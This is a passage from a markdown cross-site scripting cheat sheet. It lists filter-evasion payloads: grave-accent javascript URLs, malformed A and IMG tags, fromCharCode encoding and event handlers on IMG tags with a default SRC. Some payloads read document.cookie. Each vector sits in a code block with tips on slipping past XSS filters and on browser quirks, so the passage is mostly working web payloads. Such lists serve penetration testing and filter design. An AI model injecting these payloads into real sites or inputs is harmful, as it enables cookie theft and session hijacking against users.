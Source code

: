 
## Grave Accent Obfuscation
If you need to use both double and single quotes you can use a grave accent to encapsulate the JavaScript string - this is also useful because lots of cross site scripting filters don’t know about grave accents:

```js
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```

## Malformed A Tags
Skip the HREF attribute and get to the meat of the XXS

```js
\< a onmouseover="alert(document.cookie)" \> xxs link \< /a \>
```
or Chrome loves to replace missing quotes
- if you ever get stuck just leave them off
- Chrome will put them in the right place and fix your missing quotes on a URL or script.

```js
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
```

## Malformed IMG Tags
- cleaned up and shortened to work in all browsers
- this XSS vector uses the relaxed rendering engine to create our XSS vector within an IMG tag that should be encapsulated within quotes. I assume this was originally meant to correct sloppy coding. This would make it significantly more difficult to correctly parse apart an HTML tags:

```js
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```

## fromCharCode
- If no quotes of any kind are allowed
- you can `eval() a fromCharCode` in JavaScript to create any XSS vector you need:

```js
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```

## `Default SRC Tag` to Get Past Filters that Check SRC Domain
- This will bypass most SRC domain filters.
- Inserting javascript in an event method will also apply to any HTML tag type injection that uses elements like Form, Iframe, Input, Embed etc.
- It will also allow any relevant event for the tag type to be substituted like `onblur`, `onclick` giving you an extensive amount of variations for many injections listed here.

```js
<IMG SRC=# onmouseover="alert('xxs')">
```

